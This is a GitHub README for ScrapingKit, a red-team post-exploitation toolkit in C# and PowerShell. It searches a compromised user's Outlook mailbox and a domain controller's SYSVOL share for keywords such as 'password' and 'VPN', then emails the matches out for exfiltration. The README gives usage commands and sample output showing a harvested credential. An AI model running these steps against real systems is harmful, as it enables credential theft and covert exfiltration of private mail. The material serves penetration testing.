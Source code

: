 # ScrapingKit
## v1.01 Release
Brought to you by [Neil Lines](https://twitter.com/myexploit2600) & [Andy Gill](https://twitter.com/ZephrFish) at [Lares Labs](https://labs.lares.com).
![image](https://github.com/LaresLLC/ScrapingKit/assets/5783068/4655e287-cc3c-480c-97a7-e280c9fcb149)


Scraping Kit is made up of several tools for scraping services for keywords, useful for initial enumeration of Domain Controllers or if you have popped a user's desktop, their outlook client. Each component has a function that currently supports scraping and emailing the contents to a designated email address for easy exfiltration.

The kit contains two tools currently with more to come in the coming months and more customisation options.

- [SharpScrapeKit](https://github.com/LaresLLC/ScrapingKit/tree/main/SharpScrapeKit)
- [PSScrapeKit](https://github.com/LaresLLC/ScrapingKit/tree/main/PSScrapeKit)

## SharpScrapeKit

### What it is

It helps identify files that contain specific keywords in both emails via the Outlook desk app, and the local domain controller via the Policies and Scripts directories within the SYSVOL folder of an Active Directory domain. It then provides information about the matches and can be used to hunt for potential words such as username and password present in those files.

### How to setup/use

Read this blog post for more detailed information over on [Lares Labs](https://labs.lares.com/) (Blog post goes live Tuesday 30th May 08:00 UTC).

[https://labs.lares.com/introducing-scraping-kit/](https://labs.lares.com/introducing-scraping-kit/)

#### Required NuGet Pakages

1. Right-click on project 'ScrapeKit' under Solution Explorer and select Manage NuGet Packages.
2. Click on Browse search for the below pakages and install.

```
Microsoft.Office.Interop.Outlook" Version="15.0.4797.1004"
MicrosoftOfficeCore" Version="15.0.0"
System.DirectoryServices" Version="7.0.1"
System.DirectoryServices.AccountManagement" Version="7.0.0"
```

`TargetFramework > net6.0`

Compile then execute with either PowerShell, CMD or if you have physical access simply double click it.
The following menu screen will load.

```
Please select an option:
1. Run Outlook Email Search
2. Run Active Directory Keyword Search
3. Exit
```

The Sharp implementation of the tool will pull the domain from environmental variables or if you want to specify it manually it will prompt you to do so.

### Example Option 1 using the default keywords

After selecting option 1 you will be requested to add a destination email address, all matches will be forwarded to the added address.
 
```Please select an option:
1. Run Outlook Email Search
2. Run Active Directory Keyword Search
3. Exit
1
Enter the email address to forward matching emails:
dhfrdfdg@REDACTED.com
Would you like to only scrape for the following keywords: 'password', 'security', 'confidential', 'VPN', and 'WIFI' (Y/N)
Y
Matching email found. Forwarded the email information to dhfrdfdg@REDACTED.com
```


### Example Option 1 using user defined keywords

You can select the default keywords or add your own keywords by selecting N at the prompt.

```Please select an option:
1. Run Outlook Email Search
2. Run Active Directory Keyword Search
3. Exit
1
Enter the email address to forward matching emails:
dhfrdfdg@REDACTED.com
Would you like to only scrape for the following keywords: 'password', 'security', 'confidential', 'VPN', and 'WIFI' (Y/N)
n
Enter additional keywords (comma-separated):
happy1
Matching email found. Forwarded the email information to dhfrdfdg@REDACTED.com
```

### Example Option 2 DC scrape with user defined keyword

```
C:\Users\user2>C:\Users\user2\Desktop\ScrapeKit.exe
Please select an option:
1. Run Outlook Email Search
2. Run Active Directory Keyword Search
3. Exit
2
Please provide at least one keyword as a command-line argument.
happy
Match found in file \\WIN-4Q0A4190APL.hacklab.local\SYSVOL\HACKLAB.LOCAL\Scripts\Test1\Herllo.txt!
Additional keywords found in the context:
user
username
name
username:
username:
Context:
sfsfisfjhsf sfjbsfj sf sf


username: happy1
password: test1
```

## PSScrapeKit

### What it is

PSScrapeKit is a powershell implementation of ScrapeKit, it consists of two files; DCScraper & OutlookScrape. Each has a specific function for scraping either a DC or Outlook. The outlook scraper will connect to the user's outlook client, search for keywords then queue up any interesting emails and send to an email of your choosing. Whereas the DC one will connect to sysvol and look for specific keywords or a default list.

- DCScrape.ps1
- OutlookScrape.ps1

### How to Use

See [PSScrapeKit](https://github.com/LaresLLC/ScrapingKit/tree/main/PSScrapeKit)

#### OutlookScrape
Simply import the module then execute it:

```
ipmo .\OutlookScrape.ps1
Invoke-OutlookScrape
```

It will give you two options:
```
Select keyword option:
1. User-defined keywords
2. Default keywords (password, security, confidential, VPN, WIFI)
Enter the keyword option: 
```

Simply select an option then specify an email and the rest will queue up and do its thing.

### Example execution:
![image](https://github.com/LaresLLC/ScrapingKit/assets/5783068/870ff5d6-2380-4d4f-956b-71f16267feb2)
![image](https://github.com/LaresLLC/ScrapingKit/assets/5783068/1357b27c-bad5-453b-b4cf-ed244d39d21d)


## Future Plans
- Share Scraping Module, similar to snaffler but more opsec safe
- Scraping contents of specific files on DCs/Other hosts
- Other automation and enumeration
